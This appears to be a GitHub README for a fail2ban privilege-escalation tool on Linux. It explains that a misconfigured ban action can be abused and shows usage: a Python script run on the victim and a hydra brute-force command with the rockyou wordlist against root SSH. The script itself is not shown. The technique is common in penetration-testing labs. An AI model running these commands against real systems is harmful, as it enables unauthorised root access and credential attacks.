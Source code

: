 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/img.png?raw=true)

# Usage
@victim
```
python3 fail2ban.py
```


@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlist/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7 <br>
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

